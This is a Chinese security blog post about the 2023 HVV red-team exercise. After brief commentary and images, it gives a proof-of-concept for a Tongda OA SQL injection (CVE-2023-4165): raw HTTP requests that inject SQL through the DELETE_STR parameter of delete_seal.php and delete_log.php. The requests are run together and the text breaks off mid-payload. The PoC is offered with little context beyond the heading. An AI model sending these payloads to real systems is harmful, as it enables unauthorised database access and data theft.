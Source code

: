 ```yaml
---
title: 2023年护网行动-第三天：你出局了吗
date: 2023-08-11 11:50:00
categories:
  - 信息安全
tags:
  - 渗透测试
  - 2023年hvv行动
  - wps漏洞
  - 命令执行
  - sql注入
description: 漫天飞的漏洞
cover: https://github.com/zizhuspot/www.dagangya.top/assets/134364698/f929b085-b971-4be0-916f-9bebb8036b1f

---
```


![image](https://github.com/zizhuspot/www.dagangya.top/assets/134364698/8a41fa29-33bf-449e-98b8-06ca00c46ccc)---

先来说说安全行业信息吧。。。。

还是那句话“没有网络安全，就没有国家安全”

重拳出击！国家安全机关破获美国中央情报局间谍案

hvv行动还有有必要的

![image.png](https://s2.loli.net/2023/08/11/PNrhMqKFuDIJ52R.png)

## 护网行动技战法

看来大家都喜欢这个战法

![1691724419360](https://github.com/zizhuspot/www.dagangya.top/assets/134364698/a12cdc06-2ffd-472f-860c-aee3a062b4e8)

想得太累 还是让人工智能写吧

![1691724419355.jpg](https://s2.loli.net/2023/08/11/n8YX5KwUB2VDRv1.png)

做正事吧

## 通达OA  sql注入漏洞CVE-2023-4165 POC

GET/general/system/seal_manage/iweboffice/delete_seal.php? DELETE_STR=1)%20and%20(substr(DATABASE(),1,1))=char(84)%20and%20(select%20count(*)%20fr om%20information_schema.columns%20A,information_schema.columns%20B)%20and(1)=(1HTTP/1.1Host:127.0.0.1:8080User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:109.0) Gecko/20100101 Firefox/116.0Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8Accept-Language:zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2AcceptEncoding: gzip, deflateConnection: closeUpgrade-Insecure-Requests:11GET /general/system/seal_manage/dianju/delete_log.php? DELETE_STR=1)%20and%20(substr(DATABASE(),1,1))=char(84)%20and%20(select%20count(*)%20f
